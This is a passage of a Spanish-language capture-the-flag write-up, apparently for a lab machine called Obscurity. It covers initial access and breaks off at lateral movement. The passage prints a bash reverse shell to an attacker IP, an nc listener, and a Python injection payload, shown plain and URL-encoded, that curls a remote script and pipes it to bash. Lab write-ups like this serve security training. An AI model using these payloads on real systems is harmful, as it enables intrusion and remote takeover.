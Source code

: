 # Ganando acceso

Creamos un archivo llamado “shell.sh” que contendrá nuestro código para una shell reversa, este código es: `bash -i >& /dev/tcp/10.10.15.64/5555 0>&1  
`Luego iniciamos un servidor http del cual la máquina atacada descargará el archivo, para esto usamos `python3 -m http.server`. Antes de ejecutar el ataque iniciamos nuestro listener con `nc -lvp 5555`, para que la máquina atacada descargue nuestra payload y la ejecute accederemos a la ruta `’;os.system(‘curl 10.10.15.64:8000/shell.sh | bash’);’`, ya que el script ya importa el módulo “os” podemos usarlo para ejecutar comandos directamente, así que podemos usar curl y enviar su salida a bash, para evitar que alguno de los carácteres especiales rompa la petición lo codificamos en URL: `%27%3b%6f%73%2e%73%79%73%74%65%6d%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%35%2e%36%34%3a%38%30%30%30%2f%73%68%65%6c%6c%2e%73%68%20%7c%20%62%61%73%68%27%29%3b%27`.

![](/assets/images/Obscurity/1__wjQ__kmxTqxCP8mHk15yudQ.png)


Y tras enviar la petición conseguimos nuestra shell inicial.

![](/assets/images/Obscurity/1____EUx2RquDekwAjWGgYoytg.png)


# Movimiento lateral

Exploramos la máquina y vemos que cualquiera puede acceder al directorio de robert, y ahí encontramos algunos archivos interesantes.

![](/assets/images/Obscurity/1__HDejo4zgOM3gBSJ2IpUh3A.png)
